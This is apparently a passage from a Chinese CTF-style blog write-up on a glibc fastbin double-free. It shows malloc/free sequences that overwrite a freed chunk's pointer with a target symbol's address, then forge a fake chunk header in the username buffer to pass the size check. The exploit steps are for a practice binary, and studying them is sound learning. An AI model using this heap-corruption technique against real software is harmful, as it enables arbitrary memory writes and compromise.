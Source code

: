 这里我们执行流程是

```
a=malloc(0x28);
b=malloc(0x28);

free(a);
free(b);
free(a);

malloc(0x28,p64(0xdeadbeef));

```

其中最后一次 malloc 分配的内容到了原本 chunk a 的位置，并且我们在 user data 这里填充了 0xdeadbeef

这样接下来再申请三次，第三次 malloc 的内容就会写在 0xdeadbeef 这里

我们想要修改的是 Target 变量的值，这个值在`elf.sym.user`这里，所以我们先把 shellcode 改成下面这样

```
a=malloc(0x28);
b=malloc(0x28);

free(a);
free(b);
free(a);

malloc(0x28,p64(elf.sym.user));

malloc(0x28);
malloc(0x28);
malloc(0x28,"writesomethins");

```

结果刚刚运行就直接收到 SIGNAL 中断了，查看一下出错的位置的栈帧，可以看到提示的是 Memory corruption

![](https://static.hack1s.fun/images/2021/03/09/image-20210309142858585.png)

注释写着是在检查 chunk 的 size 字段和 fastbin 申请的是否相等

看一下我们正常申请 chunk 时的结构，有一个比较重要的地方被忽略了

![](https://static.hack1s.fun/images/2021/03/09/image-20210309143322952.png)

这些地方都标识着 0x31，表示这个 chunk 大小是 0x30

而我们伪造的`elf.sym.user`那里是没有这个值的，因此需要把这个补一下；

正好这个地方是我们一开始输入 username 的地方，我们直接把 username 伪造成这样的结构就可以了

```
username = p64(0) + p64(0x31)

```

![](https://static.hack1s.fun/images/2021/03/09/image-20210309143607915.png)
